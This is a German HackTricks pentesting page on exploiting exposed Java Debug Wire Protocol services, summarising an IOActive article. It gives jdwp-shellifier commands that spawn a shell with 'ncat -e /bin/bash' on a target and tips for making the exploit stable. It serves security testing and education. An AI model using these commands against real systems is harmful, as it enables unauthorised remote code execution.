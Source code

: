 # Pentesting JDWP - Java Debug Wire Protocol

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Sofort verfügbare Einrichtung für Schwachstellenbewertung & Penetrationstests**. Führen Sie einen vollständigen Pentest von überall mit über 20 Tools & Funktionen durch, die von Recon bis Reporting reichen. Wir ersetzen keine Pentester - wir entwickeln benutzerdefinierte Tools, Erkennungs- & Ausnutzungs-Module, um ihnen etwas Zeit zurückzugeben, um tiefer zu graben, Shells zu öffnen und Spaß zu haben.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Ausnutzen

Die Ausnutzung von JDWP basiert auf dem **Fehlen von Authentifizierung und Verschlüsselung** des Protokolls. Es wird normalerweise auf **Port 8000** gefunden, aber andere Ports sind möglich. Die erste Verbindung erfolgt durch das Senden eines "JDWP-Handshake" an den Zielport. Wenn ein JDWP-Dienst aktiv ist, antwortet er mit demselben String und bestätigt damit seine Anwesenheit. Dieser Handshake dient als Fingerabdruckmethode zur Identifizierung von JDWP-Diensten im Netzwerk.

In Bezug auf die Prozessidentifikation kann die Suche nach dem String "jdwk" in Java-Prozessen auf eine aktive JDWP-Sitzung hinweisen.

Das bevorzugte Tool ist [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier). Sie können es mit verschiedenen Parametern verwenden:
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
Ich habe festgestellt, dass die Verwendung von `--break-on 'java.lang.String.indexOf'` den Exploit **stabiler** macht. Und wenn Sie die Möglichkeit haben, ein Backdoor auf den Host hochzuladen und es auszuführen, anstatt einen Befehl auszuführen, wird der Exploit noch stabiler.

## Weitere Details

**Dies ist eine Zusammenfassung von [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)**. Überprüfen Sie es für weitere Details.

1. **JDWP Übersicht**:
- Es handelt sich um ein paketbasiertes Netzwerk-Binärprotokoll, das hauptsächlich synchron ist.
- Es fehlt an Authentifizierung und Verschlüsselung, was es anfällig macht, wenn es feindlichen Netzwerken ausgesetzt ist.

2. **JDWP Handshake**:
- Ein einfacher Handshake-Prozess wird verwendet, um die Kommunikation zu initiieren. Ein 14-Zeichen-ASCII-String „JDWP-Handshake“ wird zwischen dem Debugger (Client) und dem Debuggee (Server) ausgetauscht.

3. **JDWP Kommunikation**:
- Nachrichten haben eine einfache Struktur mit Feldern wie Länge, Id, Flag und CommandSet.
- Die Werte des CommandSet reichen von 0x40 bis 0x80 und repräsentieren verschiedene Aktionen und Ereignisse.

4. **Ausnutzung**:
- JDWP ermöglicht das Laden und Aufrufen beliebiger Klassen und Bytecode, was Sicherheitsrisiken birgt.
- Der Artikel beschreibt einen Ausnutzungsprozess in fünf Schritten, der das Abrufen von Java Runtime-Referenzen, das Setzen von Haltepunkten und das Aufrufen von Methoden umfasst.

5. **Echte Ausnutzung**:
- Trotz potenzieller Firewall-Schutzmaßnahmen sind JDWP-Dienste in realen Szenarien entdeckbar und ausnutzbar, wie durch Suchen auf Plattformen wie ShodanHQ und GitHub demonstriert.
- Das Exploit-Skript wurde gegen verschiedene JDK-Versionen getestet und ist plattformunabhängig, was zuverlässige Remote Code Execution (RCE) bietet.

6. **Sicherheitsimplikationen**:
- Das Vorhandensein offener JDWP-Dienste im Internet unterstreicht die Notwendigkeit regelmäßiger Sicherheitsüberprüfungen, das Deaktivieren von Debug-Funktionen in der Produktion und ordnungsgemäße Firewall-Konfigurationen.

### **Referenzen:**

* [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(no longer active)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (no longer active)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Sofort verfügbare Einrichtung für Schwachstellenbewertung & Penetrationstests**. Führen Sie einen vollständigen Pentest von überall mit 20+ Tools und Funktionen durch, die von Recon bis Reporting reichen. Wir ersetzen keine Pentester - wir entwickeln benutzerdefinierte Tools, Erkennungs- & Ausnutzungs-Module, um ihnen etwas Zeit zurückzugeben, um tiefer zu graben, Shells zu öffnen und Spaß zu haben.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
